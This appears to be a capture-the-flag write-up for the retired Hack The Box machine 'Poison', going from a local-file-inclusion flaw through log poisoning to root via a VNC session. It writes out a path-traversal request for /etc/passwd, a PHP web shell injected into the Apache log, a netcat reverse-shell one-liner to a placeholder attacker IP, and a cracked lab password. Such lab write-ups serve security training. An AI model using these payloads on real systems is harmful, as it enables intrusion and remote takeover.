 ```yaml
---
title: Poison Hackthebox Writeup
date: 2021-01-22 04:00:00 +0800
categories: [Hackthebox, Retired]
tags: [freebsd,vnc,log poisoning,php,reverse shell,lfi to rce]     # TAG names should always be lowercase
image: /assets/img/poison-hackthebox/poison-pic.png
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@Poison:~$


Column | Details
------------ | -------------
Name | Poison
IP | 10.10.10.84
Points | 30
Os | FreeBSD
Difficult | Medium
Creator | [unknown]()
Out on | 2018

# Summary:~$

* Discovering the new host and scanning for open ports.
* LFI vulnerability in the search tab.
* Accessing `httpd-access.log` which further led to `log poisoning`.
* Getting `reverse shell` as *www*.
* Decoding a *base64* password to log into `SSH`.
* Exploiting `VNC` with a secret file to get Root.

# Starting:~$

## Nmap

Using `Nmap` to scan the host.

**Command**: *nmap -p- -sV -T4 10.10.10.84*

___
![](/assets/img/poison-hackthebox/nmap-scans.png)

Accessing `Port 80`, We got a search bar.

___
![](/assets/img/poison-hackthebox/port-80-2.png)

I search `info.php`, and checked the URL.

___
![](/assets/img/poison-hackthebox/info-php-3.png)

Let's try `LFI` i.e. *Local File Inclusion*.

**Command**: *http://10.10.10.84/browse.php?file=../../../../../../../../../../../../../../../etc/passwd*

Checking view-source page for better understanding.

___
![](/assets/img/poison-hackthebox/got-etc-passwd-4.png)

We got the `/etc/passwd` file. After that I googled *LFI to RCE php* and found this [blog](https://blog.codeasite.com/how-do-i-find-apache-http-server-log-files/)

Accessing `/var/log/httpd-access.log`. We got this:

___
![](/assets/img/poison-hackthebox/httpd-access-logs-7.png)

I found another [blog](https://roguecod3r.wordpress.com/2014/03/17/lfi-to-shell-exploiting-apache-access-log/) on `LFI` to `RCE`.

Following the steps as mentioned in the blog, I injected a `single line php shell`.

**Command**: *GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1*

___
![](/assets/img/poison-hackthebox/running-terminal-bad-req-9.png)

Checking `id` command.

___
![](/assets/img/poison-hackthebox/got-command-execution-10.png)

Now let's get a [reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), using Burp.

**Payload**: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.X.X 1234 >/tmp/f

Sending the request by URL encoding (using `cntrl+u`).

___
![](/assets/img/poison-hackthebox/got-shell-13.png)

We got a shell as `www`.

Now we don't have permissions to read *user flag*, so I check each directory manually and found this : `/usr/local/www/apache24/data/pwdbackup.txt`

___
![](/assets/img/poison-hackthebox/got-pwdbackup-14.png)

Used an online tool to decode it with `base64`. Got password as `Charix!2#4%6&8(0`.

___
![](/assets/img/poison-hackthebox/got-password-for-charix-15.png)

Logging in as `charix` in SSH and got `user flag`.

___
![](/assets/img/poison-hackthebox/loggedin-as-ssh-charix-16.png)

For privilege escalation, I found a file named `secret.zip` which requires a passcode.

___
![](/assets/img/poison-hackthebox/secret-zip-17.png)

Let's download this file to our local machine using [scp](https://www.linuxtechi.com/scp-command-examples-in-linux/).

**Command on your local machine**: *scp charix@10.10.10.84:/home/charix/secret.zip /tmp*

I tried `zip2john` to crack the password but nothing worked, finally I tried charix's password i.e. *Charix!2#4%6&8(0* and it worked.

We got a file called `secret`.

___
![](/assets/img/poison-hackthebox/cracked-secret-zip-using-previous-password-19.png).

Now let's run [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh)on victim machine using wget and hosting it on local system.

**Wget Command**: *wget http://10.10.X.X:8081/linpeas.sh*

**Hosting Command**: *python3 -m http.server 8081*

Running it by giving executable permissions: *chmod +x linpeas.sh*, I found something interesting:

___
![](/assets/img/poison-hackthebox/active-ports-in-linpeas-20.png)

`Port 5901 and 5801` are running locally, I googled about it and found those ports are for `VNC`: *Virtual Network Computing (VNC) is a graphical desktop-sharing system that uses the Remote Frame Buffer protocol (RFB) to remotely control another computer. It transmits the keyboard and mouse events from one computer to another, relaying the graphical-screen updates back in the other direction, over a network.*

I checked VNC using `ps aux` and found it running as root.

___
![](/assets/img/poison-hackthebox/vnc-running-as-root-21.png)

To run `vnc` we need port forwarding as it won't be able to run from the victim machine.

**Commands for SSH port forwarding**: *ssh -L 5000:127.0.0.1:5901 charix@10.10.10.84*   (on local machine)

Now `VNC` is running locally on port `5000` on our environment.

**Command**: *vncviewer -passwd secret 127.0.0.1:5000.* (download vncviewer using *sudo apt-get install vncviewer*).

Using `secret` file as the password to access *VNC*, We got Root.

___
![](/assets/img/poison-hackthebox/got-root-22.png)


